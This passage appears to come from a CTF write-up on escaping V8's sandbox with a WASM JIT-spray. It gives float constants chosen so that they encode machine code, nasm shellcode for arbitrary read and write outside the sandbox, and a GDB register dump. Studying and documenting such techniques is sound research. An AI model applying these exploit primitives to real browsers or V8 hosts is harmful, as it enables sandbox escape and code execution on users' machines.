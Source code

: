 This is very interesting because even though we can't directly overwrite the generated machine code (which is RWX) we can still place some controlled data there by embedding it in immediates and then jumping into the middle of the immediate by overwriting this pointer (JIT spray attack).

Interestingly, Kylebot notes in his writeup that

> After a few trials, I still couldn’t let V8 to dereference this pointer. After following the trace, @adamd and I found out that the real pointer used for invoking the shellcode resides on ptmalloc heap, which is outside of the cage.

It seems that this might have changed in newer versions of V8 and that this attack is now possible.

The gist of the attack is that we will compile a WASM function similar to this 

```c
int a(unsigned long x, unsigned long y) { 
    double g1 = 1.4501798452584495e-277;
    double g2 = 1.4499730218924257e-277;
    double g3 = 1.4632559875735264e-277;
    double g4 = 1.4364759325952765e-277;
    double g5 = 1.450128571490163e-277;
    double g6 = 1.4501798485024445e-277;
    double g7 = 1.4345589834166586e-277;
    double g8 = 1.616527814e-314;
    
    return g1 + g2 + g3 + g4 + g5 + g6 + g7 + g8;
}
```

and choose the floating-point values so that their binary encoding is also valid machine code. By jumping into the next imediate when we run out of space we can construct an arbitrarily-long instruction sequence. And since V8's WASM compiler is deterministic we just have to add an offset to the pointer we were just overwriting to execute our sprayed shellcode.

By inspection in GDB we can see that the calling convention that V8 uses for WASM is register-based with 32-bit integer arguments passed in `eax`, `edx`, `ecx` and integer values are returned in `eax`. The following shellcode gives us arbitrary read and write outside of the sandbox [^1]:

```nasm
sal rdx, 32
or rax, rdx
mov eax, dword ptr [rax]
ret

sal rax, 32
or rdx, rax
mov dword ptr [rdx], ecx
ret
```

[^1]: The reason why we use rdx, rax to read but rax, rdx to write is that if the same floating-point constant is used twice in the function, the compiler will emit a load from memory instead of an immediate. So we can't use the same sequence of instructions twice.

All seems good now and after figuring out the offsets we can get our arbitrary read and write:

```py
Thread 1 "d8" received signal SIGSEGV, Segmentation fault.
0x0000303536423736 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────────────────────────────────
 RAX  0x0
*RBX  0x5554dff173b8 ◂— cmp eax, dword ptr [r13 + 0x220]
*RCX  0x42424242
*RDX  0x41414141
*RDI  0x555556a1f080 —▸ 0x555556a1f030 ◂— 0x0
*RSI  0x3ae300199219 ◂— 0x590000225900195f
*R8   0x4011f608d37
*R9   0x7fffffffd348 —▸ 0x3ae300199315 ◂— 0xc90019930100002f /* '/' */
*R10  0x7ffff7fbd080
*R11  0x7ffff7fbd090
```

[^4]: Yeah this is kinda cheating, but then again, the challenge was not made with this in mind and I also had to finish this writeup at some point :P. Also I forgot the command line flag, so if you came here looking for that, sorry :/.